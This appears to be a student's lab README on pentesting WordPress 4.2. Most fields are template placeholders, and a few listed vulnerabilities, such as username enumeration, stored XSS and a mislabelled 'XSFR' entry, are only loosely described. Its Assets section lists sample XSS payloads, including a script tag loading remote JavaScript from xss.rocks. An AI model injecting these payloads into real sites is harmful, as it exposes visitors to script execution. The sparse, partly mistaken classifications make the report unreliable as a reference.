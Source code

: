 # Project 7 - WordPress Pentesting

Time spent: **7** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name:username enumeration
  - [ ] Summary: username existance can be validated
    - Vulnerability types:authorization
    - Tested in version:4.2
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: wp admin page 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name:XSS
  - [ ] Summary: 
XSS script can be posted as a new post and it runs when page is loaded
    - Vulnerability types:unvalidated input
    - Tested in version:4.2
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: wp admin page ad new post add script 
  - [ ] Affected source code: post body
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Required) Vulnerability Name:XSFR
  - [ ] Summary: malicious web site link can be hidden by different name
    - Vulnerability types:weaknesses in authentication
    - Tested in version:4.2
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code: body of page
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name:XSS
  - [ ] Summary: XSS script can be added as comment to blog
    - Vulnerability types:unvalidated input
    - Tested in version:4.2
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: open web page and add script as a comment to blog
  - [ ] Affected source code:comment body
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

GET /search.php?term=<script>alert('XSS!');</script>

<IMG SRC=# onmouseover="alert('xxs')">

<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>

<a href="http://hackermag.com/best_hacker/vote/48576">About Me</a>
List any additional assets, such as scripts or files

## Resources
codepath guides

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
